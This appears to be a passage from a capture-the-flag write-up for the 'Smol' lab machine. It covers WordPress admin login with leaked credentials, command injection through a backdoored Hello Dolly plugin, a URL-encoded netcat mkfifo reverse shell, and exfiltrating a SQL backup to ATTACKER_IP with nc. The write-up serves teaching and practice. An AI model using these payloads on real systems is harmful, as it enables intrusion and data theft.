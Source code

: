 Out of many things this file contains a set of credentials `wpuser:kbLSF2Vop#lw3rjDZ629*Z%G`.

We can use this creds to login at `http://www.smol.thm/wp-login.php`; this grants us access to the admin dashboard.
Looking around in the admin panel i found a page called "WebMaster Task!!" at:
```http
GET http://www.smol.thm/wp-admin/post.php?post=58&action=edit
```

It contains an interesting line:
```
[IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```

A bit of research showed that we can inject code at `/hello.php`, to confirm that i sent a simple `whoami` via the `cmd` parameter:
```http
http://www.smol.thm/wp-admin/hello.php?cmd=whoami
```

This prints "www-data" on the screen, we have confirmed the vulnerability, now we need to get a shell, i used nc mkfifo reverse shell and URL encoded it:
```http
http://www.smol.thm/wp-admin/hello.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E9%2E3%2E197%201234%20%3E%2Ftmp%2Ff
```

Before sending it be sure to have a listener ready:
```bash
nc -lvnp 1234
```

Now we got a shell as "www-data".

Listing the `/home` directory we find 4 users:
```
drwxr-x---  2 diego internal 4096 Aug 18  2023 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```

But for now we cant access any of those directories.

<br/>

### Privilege Escalation

#### Lateral
Looking around i found an interesting backup: `/opt/wp_backup.sql`, let's transfer it to our machine:
```bash
nc -lvnp 4444 > wp_backup.sql
```

On target:
```bash
nc -nv ATTACKER_IP 4444 < wp_backup.sql
```
